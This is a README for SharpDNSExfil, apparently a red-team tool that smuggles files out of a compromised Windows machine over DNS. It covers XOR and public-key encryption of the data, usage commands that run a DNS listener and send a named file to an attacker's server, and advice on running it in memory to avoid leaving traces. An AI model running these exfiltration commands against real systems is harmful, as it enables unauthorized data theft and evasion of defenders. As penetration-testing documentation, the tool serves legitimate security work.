


# SharpDNSExfil
**SharpDNSExfil** is an exfiltration tool written in C#. The main objective is to exfiltrate any "on disk" files without having to worry about restricted outbound connection.

## Presequisites
* Remote machine should be able to resolve DNS 

## Why did I do this?
I got blind RCE during my engagement and it turns out the remote machine has firewall protection which doesn't allow outbound connection and gave me a hard time to get a reverse connection. The good thing is, the DNS server can resolve public domains and able to reach me through DNS. The thing is I still couldn't get a reverse shell, i could read some small outputs, but no bueno. So I had an idea to automate the process through just DNS and recurse all the steps, and its finally working!

_**CAVEAT**: The whole process has just been tested through custom public DNS Server but haven't been fully tested on real corporate environment. So **use at your own risk!**_ 

# TL;DR: How-To

## What does it do?
All exfiltrated bytes are XORed with a randomly generated key. You might think, the key will then be in plain text in network level (wireshark will do). With `--encrypt` option, this is where asymmetric encryption comes in place, a hard-coded public key will encrypt the XOR key. Local machine (you) wil expect an excrypted form of key, the python script will automatically decrypt the key with its hard-coeded private key. The rest of the data trasmitted will be XOR backed to its original bytes. So, **always change the key pairs please**

 

## Usage
* Setup DNS Server with `dnsserver.py` python script. The options are as follows 
```
python3 dnserver.py --udp --port 53 --host 192.168.0.102
```

* Run the executable on the remote machine. 
```
SharpDNSExfil.exe --file C:\path\to\file --server 192.168.0.102
```

## OPSEC Consideration
**SharpDNSExfil** steps and processes are to be **executed all in-memory without touching the disk** to avoid leaving rubbish during engagement. **SharpDNSExfil** will inform each and every steps or processess that it does in the background with `--verbose`  option. Each sent bytes are XOR encoded and key will further be encryted with asymmetric encryption to avoid plain text key in network traffic. **Be extra careful** and always take notes and **do cleanup on client's property**. 

## Credits
* [Awesome DNSServer script by @pklaus] (https://gist.githubusercontent.com/pklaus/b5a7876d4d2cf7271873/raw/cb089513b185f4128d956eef6e0fb9f5fd583e41/ddnsserver.py)